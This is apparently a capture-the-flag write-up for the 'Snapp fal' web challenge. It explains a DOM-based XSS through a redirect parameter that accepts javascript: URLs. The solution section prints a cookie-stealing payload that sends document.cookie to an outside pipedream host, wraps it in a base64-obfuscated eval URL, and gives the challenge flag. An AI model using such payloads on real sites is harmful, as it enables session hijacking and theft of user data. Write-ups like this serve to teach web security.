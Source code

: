# 1. Snapp fal

```
From now on Snapp can offer you fals if you want.

[Download attachments](https://snappctf.com/tasks/snappfal_0bfd799152fef7299463752d840c3225f64cb259.txz)

**Notes for beginners**

-[https://portswigger.net/web-security/cross-site-scripting/dom-based](https://portswigger.net/web-security/cross-site-scripting/dom-based)

-You need to get XSS on https://snappfal.spchallenge.ir/

-When you got it, report your payload to https://snappfal-support.spchallenge.ir/

-A virtual browser will visit your payload... flag is in the cookies of `snappfal.spchallenge.ir`. Simply write a payload that steals `document.cookie` and submit the payload to [https://snappfal-support.spchallenge.ir/](https://snappfal-support.spchallenge.ir/).

-If your payload doesn't work on Admin bot, contact support.

-Admin closes the browser after 5 seconds.

-`src.js` is the source code of the website.

-`bot.js` is the script that controls the virtual browser ( You can ignore it ).
```

when we visit the website we encounter a page like this

![Pasted image 20240225002811.png](./Pasted image 20240225002811.png)

# 2. Solution

if we click on the button it will be like this for a few seconds and the redirects us to previous page

![Pasted image 20240225002857.png](./Pasted image 20240225002857.png)
if wee look at the page source

![Pasted image 20240225002941.png](./Pasted image 20240225002941.png)

![Pasted image 20240225003052.png](./Pasted image 20240225003052.png)

the input parameter back is for redirecting the user to an arbitrary page. so we can cause a dom-based XSS here by using javascript schema

![Pasted image 20240225003200.png](./Pasted image 20240225003200.png)

the goal of the challenge is to read the flag which is inside admin's cookie

![Pasted image 20240225003246.png](./Pasted image 20240225003246.png)

I used this payload to redirect admin back to my server containing it's cookie as query string

```js
window.location="https://eowlxdv1oni96il.m.pipedream.net/?f="+document.cookie
```

and the finalized url is

```
https://snappfal.spchallenge.ir/fal?back=javascript:eval(atob(%27d2luZG93LmxvY2F0aW9uPSJodHRwczovL2Vvd2x4ZHYxb25pOTZpbC5tLnBpcGVkcmVhbS5uZXQvP2Y9Iitkb2N1bWVudC5jb29raWUK%27))
```

![Pasted image 20240225003815.png](./Pasted image 20240225003815.png)

```
SNAPP{89d36f80b85bde916fbdeb8592c1b368}
```